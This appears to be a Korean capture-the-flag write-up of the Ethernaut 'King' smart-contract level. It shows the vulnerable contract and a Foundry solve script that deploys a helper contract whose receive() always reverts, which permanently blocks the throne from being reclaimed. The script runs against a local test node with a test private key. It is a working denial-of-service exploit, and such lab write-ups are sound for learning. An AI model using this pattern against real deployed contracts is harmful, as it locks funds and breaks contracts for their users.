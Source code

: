 # 지문

아래의 컨트랙트는 **아주 단순한 게임**을 나타냅니다. 현재 상금보다 더 많은 이더(ether)를 보내는 사람이 새로운 왕이 됩니다. 이때, 쫓겨난 이전 왕은 새 상금만큼의 이더를 받아서 약간의 수익을 얻게 되죠. 정말 전형적인 **폰지 구조**네요 xD

꽤 재미있는 게임이죠. 하지만 **당신의 목표는 이 게임을 깨는 것**입니다.

인스턴스를 레벨에 제출하면, 레벨이 다시 왕의 지위를 되찾으려고 시도할 것입니다. 이때 **그러한 자동 왕위 회수를 방지할 수 있다면** 이 레벨을 클리어하게 됩니다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

# 풀이 

코드는 별게없다만, 답안을 제출하면 다른 주소가 owner를 다시 가져가도록 되어있음 
여기서 주목할건 `payable(king).transfer(msg.value);`임.
이전 `king`에게 contract에 있는 native token을 다보내고 ownership을 전송함.

근데 여기서 이전 `king`이 contract이고 receive handler에 항상 revert가 되도록 만들어둔다면 항상 함수 호출이 실패할수밖에 없음.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
    function _king() external view returns (address);
    function prize() external view returns (uint256);
    function owner() external view returns (address);
}

contract Helper {
    function trigger(address target) public payable {
        target.call{value:1000000000000000}("");
        console.log("current king : %s", ITarget(target)._king());
        console.log("current prize : %d", ITarget(target).prize());
    }

    receive() external payable {
        revert("HELLLLLLO");
    }
}
contract SolveScript is Script {
    address public target = 0x3B02fF1e626Ed7a8fd6eC5299e2C54e1421B626B;

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();


        console.log("current king : %s", ITarget(target)._king());
        console.log("current prize : %d", ITarget(target).prize());

        Helper helper = new Helper();
        console.log("helper address : %s", address(helper));
        helper.trigger{value:1000000000000000}(target);

        vm.stopBroadcast();
    }
}
```